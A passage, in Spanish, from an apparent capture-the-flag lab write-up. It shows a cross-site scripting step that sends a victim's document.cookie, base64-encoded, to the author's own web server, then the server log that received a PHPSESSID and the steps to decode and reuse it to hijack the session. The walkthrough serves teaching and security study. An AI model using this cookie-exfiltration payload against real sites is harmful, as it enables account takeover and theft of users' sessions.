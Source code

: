 En mi caso:

```bash
$ echo 'x=new XMLHttpRequest;x.open("GET","http://192.168.1.181?cookie="+btoa(document.cookie));x.send();' > script.js
```

Y recibimos la cookie del usuario, en formato base64, en nuestro servicio web:

```bash
192.168.1.117 - - [21/Mar/2025 23:46:44] "GET /script.js HTTP/1.1" 304 -
192.168.1.117 - - [21/Mar/2025 23:46:44] "GET /?cookie=UEhQU0VTU0lEPXNkM3EzZWVnMHY3Y2wzcGhpbTVyMjFpcWFo HTTP/1.1" 200 -
```

Descodificamos el base64 de la cookie y vemos que es la misma que se creó al iniciar sesión con nuestro usuario, pero con un valor diferente.

```bash
$ echo UEhQU0VTU0lEPXNkM3EzZWVnMHY3Y2wzcGhpbTVyMjFpcWFo | base64 -d
PHPSESSID=sd3q3eeg0v7cl3phim5r21iqah  
```

Iniciamos sesión en el navegador con el primer usuario de prueba que creamos (si fuera necesario, creamos otro desde el formulario de registro). Una vez logueados, desde las herramientas de desarrollador del navegador, en la pestaña `Storage > Cookies`, sustituimos el valor de la cookie de sesión `PHPSESSID` por el que nos llegó a través de nuestro servicio web y después actualizamos la página.

![alt text](../../../assets/images/token-of-hate/image-7.png)
